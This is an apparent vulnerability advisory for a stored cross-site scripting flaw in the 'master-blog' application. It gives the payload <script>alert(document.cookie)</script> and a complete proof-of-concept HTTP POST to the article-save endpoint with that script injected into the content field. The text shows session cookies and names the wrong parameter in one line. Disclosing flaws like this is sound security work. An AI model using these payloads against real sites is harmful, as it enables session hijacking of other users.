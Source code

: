 # master-blog_xss
master-blog_xss  
system url:https://gitee.com/manster1231/master-blog  
A vulnerability was found in master-blog system . The manipulation of the argument description with the input <script>alert(document.cookie)</script> leads to cross site scripting. It is possible to initiate the attack remotely.  
Click the add article button, write a malicious script in the content of the public article, and then click "publish".  
![image](https://github.com/Andriesces/master-blog_xss/assets/139127885/7e0afe42-ecd8-4018-ac03-e97a8634e5ed)  
When other users browse the article, malicious code will be triggered.  
![image](https://github.com/Andriesces/master-blog_xss/assets/139127885/b37d3051-22a7-4ac6-9516-58ee343e7705)  
payload:payload:<script>alert(document.cookie)</script>  
POC:
POST /admin/blogs/save HTTP/1.1  
Host: 127.0.0.1:9777  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8  
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2  
Accept-Encoding: gzip, deflate  
Content-Type: application/x-www-form-urlencoded  
Content-Length: 165  
Origin: http://127.0.0.1:9777  
Connection: close  
Referer: http://127.0.0.1:9777/admin/blogs/1/edit  
Cookie: blog_remember_author=11; blog_remember_mail=165482%40qq.com; blog_remember_url=https%3A%2F%2Fdownload.csdn.net%2Fdownload%2Fqq_40582773%2F65565235; PHPSESSID=gkqpuh043r1fsp7e36sg32j0u6; JSESSIONID=EDFF7326FC80745A65788B966F03675F  
Upgrade-Insecure-Requests: 1  
Sec-Fetch-Dest: document  
Sec-Fetch-Mode: navigate  
Sec-Fetch-Site: same-origin  
Sec-Fetch-User: ?1  

published=true&id=1&flag=&id=&title=11111&content=%3Cscript%3Ealert%28document.cookie%29%3C%2Fscript%3E&typeId=1&tagIds=&firstPicture=11&description=111&recommend=on  



